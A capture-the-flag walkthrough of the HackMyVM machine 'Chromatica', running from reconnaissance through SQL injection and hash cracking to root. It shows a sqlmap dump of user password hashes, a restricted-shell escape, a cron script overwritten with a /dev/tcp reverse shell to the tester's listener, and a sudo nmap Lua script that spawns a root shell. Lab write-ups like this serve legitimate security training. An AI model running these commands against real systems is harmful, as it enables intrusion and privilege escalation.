




# Chromatica 

```
Note : the point of this ctf was thinking outside of box and its make this machine more fun that others , i rate this machine Medium 

```
## Netdiscory
```bash 
┌──(kali💀kali)-[~]
└─$ fping -ag 192.168.1.1/24 2>/dev/null
192.168.1.1
192.168.1.2
192.168.1.103
192.168.1.104
192.168.1.102

```
```
as i saw a strange machine ip (192.168.1.104) ,  i assume its my machine ip. 
so lets go use nmap finding some ports .
```

## Nmap 
```bash
┌──(kali💀kali)-[~]
└─$ nmap -A -sC -sV  -p-  192.168.1.104
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-14 13:58 EDT
Stats: 0:00:28 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 66.67% done; ETC: 13:59 (0:00:13 remaining)
Stats: 0:00:33 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 66.67% done; ETC: 13:59 (0:00:16 remaining)
Stats: 0:00:38 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.76% done; ETC: 13:59 (0:00:00 remaining)
Nmap scan report for chromatica.hmv (192.168.1.104)
Host is up (0.0033s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 7c:94:7f:cb:4a:d5:8b:9f:9e:ff:7b:7a:59:ff:75:b5 (ECDSA)
|_  256 ed:94:2a:fc:30:30:cc:07:ae:27:7d:ca:92:01:49:31 (ED25519)
80/tcp   open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Chromatica|Coming Soon..... 
5353/tcp open  domain  dnsmasq 2.86
| dns-nsid: 
|_  bind.version: dnsmasq-2.86
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.42 seconds
```
# website 


```
Alright  , we find out there is a Apache web server runs a machine so we should expect .PHP files 
any way  you can use two great tools that scan port 80 

1 )  Feroxbuster  

2 ) Gobuster 
there are a lot more but most people use these two 
```

```bash
┌──(kali💀kali)-[~]
└─$ gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt   -u 'http://192.168.1.104/' -x php,txt,zip,bck,html,bak
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.1.104/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,bak,php,txt,zip,bck
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 278]
/.php                 (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 4047]
/assets               (Status: 301) [Size: 315] [--> http://192.168.1.104/assets/]
/css                  (Status: 301) [Size: 312] [--> http://192.168.1.104/css/]
/js                   (Status: 301) [Size: 311] [--> http://192.168.1.104/js/]
/javascript           (Status: 301) [Size: 319] [--> http://192.168.1.104/javascript/]
/robots.txt           (Status: 200) [Size: 36]
Progress: 33873 / 1543927 (2.19%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 34133 / 1543927 (2.21%)
===============================================================
Finished
===============================================================
```
```
Got a Robots.txt lets see what inside ... 
```
## robots.txt 

```bash 
┌──(kali💀kali)-[~]
└─$ curl 'http://192.168.1.104/dev-portal/' --user-agent dev
<!DOCTYPE html>
<html>
<head>
	<title>Chromatica</title>
	<meta name="viewport" content="width=device-width, initial-scale=1.0">
	<link rel="stylesheet" href="css/style.css">
</head>
<body>
	<div class="background-image"></div>
	<div class="container">
		<h1> Search</h1>
		<form action="search.php" method="get">
			<label for="query">Chromatica</label>
			<input type="text" id="query" name="city" placeholder="Type a city's name...">
			<button type="submit">Go</button>
		</form>
	</div>
</body>
</html>

```
```
As you can see find search.php file . lets fuzz it for a LFi  
```
## Ffuf search.php

```bash
┌──(kali💀kali)-[~]
└─$ ffuf   -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -H "user-agent: dev" -u 'http://192.168.1.104/dev-portal/search.php?FUZZ=test'  -ms 161 -s 
>>> city
```

```
now we should see this parameter in site  , by default we cant see the dir dev-tool 
so ween change user-agent to " dev " in our browser , i user chrome :
```

```
open your browser and enter URL :

(http://192.168.1.104/dev-portal)

press F12 it and go to console  , press 3 dot on right top  and hit More tools and at last Network conditions
```



```
Now we can access the desired page , lets look into it ... 

if u just enter without any input i will gave you this results

City	Population	Postal Code
New York City	8336817	10001
Los Angeles	3979576	90001
San Antonio	1547253	78201
San Diego	1425976	92101
San Jose	1030119	95101
take me back

Just some cities and useless data 
Now we can do some sql query with sqlmap  but before that need to prepare request for sqlmap 
follow the instructions 
```
## Burpsuite
``` 
open Your burp suite and lets query a GET request 
to let sqlmap know which paramter is vulnerable ...
```


```bash
┌──(kali💀kali)-[~/Documents/CTF/hackmyvm/chromatica]
└─$ sqlmap -r req.txt --batch  --dump all
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.8.4#stable}
|_ -| . [,]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org


Database: Chromatica                                                                                                                                                  
Table: users
[5 entries]
+----+-----------------------------------------------+-----------+-----------------------------+
| id | password                                      | username  | description                 |
+----+-----------------------------------------------+-----------+-----------------------------+
| 1  | 8d06f5ae0a469178b28bbd34d1da6ef3              | admin     | admin                       |
| 2  | 1ea6762d9b86b5676052d1ebd5f649d7              | dev       | developer account for taz   |
| 3  | 3dd0f70a06e2900693fc4b684484ac85 (keeptrying) | user      | user account for testing    |
| 4  | f220c85e3ff19d043def2578888fb4e5              | dev-selim | developer account for selim |
| 5  | aaf7fb4d4bffb8c8002978a9c9c6ddc9              | intern    | intern                      |
+----+-----------------------------------------------+-----------+-----------------------------+

```
**NOTE:You can use crackstation to crack the hashes**
[CrackStation]("https://crackstation.net/" Free Password Hash Crack )
``` As u can see we got some hashes and usernames , lets decrypt it . 
keeptrying
adm!n
intern00
flaghere 


After checking a lots of username and password  ....
found something :
```
## SSH - DEV
```bash
┌──(kali💀kali)-[~]
└─$ ssh  dev@192.168.1.104 
dev@192.168.1.104's password: 
GREETINGS,
THIS ACCOUNT IS NOT A LOGIN ACCOUNT
IF YOU WANNA DO SOME MAINTENANCE ON THIS ACCOUNT YOU HAVE TO
EITHER CONTACT YOUR ADMIN
OR THINK OUTSIDE THE BOX
BE LAZY AND CONTACT YOUR ADMIN
OR MAYBE YOU SHOULD USE YOUR HEAD MORE heh,,
REGARDS

brightctf{ALM0ST_TH3R3_34897ffdf69}
Connection to 192.168.1.104 closed.
```
```
Author said we should Think out of box 
and it was  Damn correct , i spend a lot on this ... 
as i mentioned above there are some lines  , what if we resize to very small to get !more command 

and its worked 
```


**NOTE:we got a lot of rabit holes**

``` Now we got shell  , hard part passed lets check some information :
we got another user named : analyst 
we got strange files in /opt directory 
so i guess it might be crontab privesc 
lets find out  ...
```


```bash
    pspy installation 
dev@Chromatica:/tmp$ wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
dev@Chromatica:/tmp$ chmod +x pspy64
dev@Chromatica:/tmp$ ./pspy64 


2024/05/14 19:09:45 CMD: UID=1002  PID=4540   | /bin/bash /opt/scripts/end_of_day.sh 
2024/05/14 19:09:45 CMD: UID=1002  PID=4539   | /bin/sh -c /bin/bash /opt/scripts/end_of_day.sh

```

```
It seems machine execute /opt/scripts/end_of_day.sh every minutes 
we can modify the shell script to execute our command and give us a shell  and as u can see the UID= 1002  refers to analyst  , you can check it by below command 
cat /etc/passwd | grep "bash" 
```
## Priv esc to Analyst 
```bash
#Start a listener

nc -nlvp 1234

#modify  /opt/scripts/end_of_day.sh content with below command that give us shell 

sh -i 5<> /dev/tcp/192.168.1.103/1234 0<&5 1>&5 2>&5

# now save it and wait for connection 

```



## Stabalize shell 

```bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
analyst@Chromatica:~$ export TERM=xterm
export TERM=xterm
analyst@Chromatica:~$  # here press ctrl-z 
┌──(kali💀kali)-[~]
└─$stty raw -echo;fg
```

# PRIV ESC - ROOT

```
lets check sudo -l   , if we may can run a command as root 
```

```bash
analyst@Chromatica:~$ sudo -l
Matching Defaults entries for analyst on Chromatica:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User analyst may run the following commands on Chromatica:
    (ALL : ALL) NOPASSWD: /usr/bin/nmap
```

lets check 

```
Shell
It can be used to break out from restricted environments by spawning an interactive system shell.

Input echo is disabled.

TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
nmap --script=$TF
```

```bash
analyst@Chromatica:~$ TF=$(mktemp)
analyst@Chromatica:~$ echo 'os.execute("/bin/bash") > $TF
> ^C
analyst@Chromatica:~$ echo 'os.execute("/bin/bash")' > $TF
analyst@Chromatica:~$ sudo nmap --script=$TF
Starting Nmap 7.80 ( https://nmap.org ) at 2024-05-14 19:25 UTC
NSE: Warning: Loading '/tmp/tmp.5a3yjmTuA3' -- the recommended file extension is '.nse'.
uid=0(root) gid=0(root) groups=0(root)
```
**NOTE: if your shell didnt show you what you are typing copy below command and execute it on remote root machine**

```bash
SHELL=/bin/bash script -q 2>/dev/null
``
```bash

root@Chromatica:~# cat root.txt 
brightctf{DIR_EN_G************07}

```
